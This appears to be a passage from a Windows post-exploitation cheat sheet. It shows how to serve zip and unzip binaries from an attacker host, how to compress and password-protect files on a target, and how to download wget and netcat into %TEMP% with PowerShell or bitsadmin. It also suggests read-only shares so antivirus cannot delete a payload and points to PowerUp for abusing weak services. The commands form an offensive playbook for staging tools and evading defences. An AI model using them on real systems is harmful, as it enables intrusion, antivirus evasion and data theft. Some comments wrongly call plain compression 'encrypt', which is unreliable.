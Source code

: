 
## (De)compressing files
Download the unzip binary for windows from [here](http://gnuwin32.sourceforge.net/packages/unzip.htm)
Unzip it in your attacker host then serve /bin/unzip.exe via an http server to your target host

    unzip.exe -h &::#usage
    unzip.exe file.zip &::#extract


For compression (or zip) follow the same steps as above, the only difference is the binaries, you can get them [here](http://gnuwin32.sourceforge.net/packages/zip.htm)
zip has also a dependency file called bzip2.dll, which has to be in the same folder and can also be downloaded from the same link ^
Once you have the binary and dependency dll on you can run:

    zip -h &::#for usage
    zip -9 out.zip file.txt file.jpg file.xls &::#encrypt files
    zip -9 out.zip -r c:\some\directory\ &::#encrypt directory
    zip -e -P PASSWORD_HERE -9 out.zip file1.txt file2.xls file3.jpg &::#for encryption with a password 
    zip -e -P PASSWORD_HERE -9 -r c:\some\directory &::#same as above but for directories.


## Uploading / Downloading files 
use read-only network shares (this also makes it impossible for the AV to delete the file):

    \\attacker\m.exe

a wget using powershell

    powershell -Noninteractive -NoProfile -command "wget https://addaxsoft.com/download/wpecs/wget.exe -UseBasicParsing -OutFile %TEMP%\wget.exe"

wget using bitsadmin (when powershell is not present)

    cmd /c "bitsadmin /transfer myjob /download /priority high https://addaxsoft.com/download/wpecs/wget.exe %TEMP%\wget.exe"

now you have wget.exe that can be executed from %TEMP%wget
for example I will use it here to download netcat

    %TEMP%\wget https://addaxsoft.com/download/wpecs/nc.exe



# Abusing Weak Services
this is the section where "shit gets real"
If you have no powershell skip the first part of this section and go to the manual way
if you do, you're in a bit of luck to automate this using PowerSploit > PrivEsc > PowerUp


## Spot the weak service using PowerSploit's PowerUP
Usage and details of this script can be found [here](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
